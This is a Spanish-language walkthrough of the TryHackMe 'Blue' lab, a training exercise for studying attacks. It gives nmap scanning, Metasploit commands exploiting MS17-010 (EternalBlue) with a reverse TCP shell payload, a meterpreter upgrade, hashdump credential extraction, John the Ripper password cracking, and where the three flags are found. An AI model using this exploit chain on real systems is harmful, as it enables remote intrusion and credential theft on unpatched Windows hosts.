 # Blue

En este documento expondremos el recorrido realizado por la máquina Blue de TryHackMe, así como las soluciones propuestas.

Escaneamos la máquina objetivo haciendo uso de nmap. Más concretamente, emplearemos el comando **nmap -sV -sC --script vuln IP.** Gracias a este, averiguaremos los puertos abiertos, los servicios en ejecución en dichos puertos, y sus versiones correspondientes. Además, obtendremos el nombre del host, que es **JON-PC**, y la vulnerabilidad que podremos emplear contra la máquina para acceder a la misma, siendo la CVE-2017-0143, que permite la ejecución remota de código en servidores con Microsoft SMBv1 (**ms17-010**). Esto lo vamos a dividir primero buscaremos los puertos abiertos y l nombre del host y luego realizaremos el comando de las vulnerabilidades

![Imagen 1](_resources/1.png)

![Imagen 2](_resources/2.png)

## Gain Access

Iniciamos Metasploit con el comando sudo msfconsole, y una vez dentro, buscamos la forma de explotar la vulnerabilidad ms17-010. Para ello, empleamos el término search, seguido de la susodicha vulnerabilidad.

![Imagen 3](_resources/3.png)

Comandos que vamos a utilizar:

use 0 o la ruta en concreto (use exploit/windows/smb/ms17_010_eternalblue)  
show options  
set rhosts (IP THM)  
set lhost (IP de nuestra VPN)  
set payload windows/x64/shell/reverse_tcp  
run

Vemos que la primera opción (*eternalblue*), es perfecta para tratar de acceder a la máquina, por lo que la seleccionamos, y mostramos las opciones del exploit.

![Imagen 4](_resources/4.png)

Cambiamos la opción RHOSTS a la IP de la máquina a vulnerar. Después de esto, podremos ejecutar el exploit, haciendp uso del comando run o exploit.

![Imagen 5](_resources/5.png)

Y ahora usamos el comando run:  
Al finalizar nos tienen que mostrar la siguiente salida:

![Imagen 6](_resources/6.png)

Una vez que vemos que ha funcionado, oprimimos CTRL+Z para dejar la sesión iniciada en segundo plano (background). y pulsamos y para guardar la session

![Imagen 7](_resources/7.png)

## Escalate

Convertimos nuestra shell en meterpreter, y para ello buscamos en Metasploit \*shell_to_meterpreter. Una vez que nos muestre los resultado, elegimos la primera (use 0).

![Imagen 8](_resources/8.png)

Una vez realizado el comando lo seleccionaremos con el comando use (numero identificativo) y luego utilizaremos el comando show options para ver que modulos son requeridos.

![Imagen 9](_resources/9.png)

También debemos cambiar la opcion LHOST a nuestra IP VPN

![Imagen 10](_resources/10.png)

Podemos mostrar todas las sesiones activas con el comando sessions -l

![Imagen 11](_resources/11.png)

![Imagen 12](_resources/12.png)

&nbsp;

Una vez convertida la sesión hay que seleccionarla para poder utilizar la línea de comandos:  

![Imagen 13](_resources/13.png)

Seleccionamos la sesión en la que se encuentra el meterpreter

![Imagen 14](_resources/14.png)

Si ejecutamos el comando shell seguido de whoami, la consola nos muestra NT authority\\system, lo que indica que hemos accedido y escalado privilegios de forma exitosa en el sistema.

![Imagen 15](_resources/15.png)

Ahora listaremos todos los procesos del sistema con el comando ps, para migrar a un proceso corriendo bajo el usuario NT authority\\system. Este proceso se podría encontrar en el fondo de la lista (en nuestro caso es el proceso conhost.exe)

![Imagen 16](_resources/16.png)

Cracking

Comenzaremos ejecutando el comando hashdump, que mostrará los hashes de las contraseñas de los diferentes usuarios del sistema, entre ellos el usuario JON-PC, que es el que nos interesa.

![Imagen 17](_resources/17.png)

Luego, anotaremos el hash de la contraseña del usuario antes mencionado en un archivo llamado hash.txt, de modo que usando el software johntheripper, podamos crackear el hash.

Una vez obtenido el hash de la contraseña, se debe copiar en un txt y descifrar la contraseña verdadera con la herramienta John de la siguiente manera:

![Imagen 18](_resources/18.png)

## Flags

La primera flag la encontramos en el directorio C:\\, la cual tras usar un cat en el archivo que vemos en la siguiente imagen nos mostrará la solución.

![Imagen 19](_resources/19.png)

Para encontrar la segunda flag emplearemos el comando search -f flag2.txt, lo que nos arrojará como resultado la ubicación de la misma

![Imagen 20](_resources/20.png)

Y haremos lo mismo que hicimos con la primera flag utilizando el comando cat para visualizarlo:

![Imagen 21](_resources/21.png)

La tercera y última flag la encontramos en el directorio Documents del usuario JON-PC, por lo que accedemos a dicha carpeta y usamos cat de nuevo.

![Imagen 22](_resources/22.png)
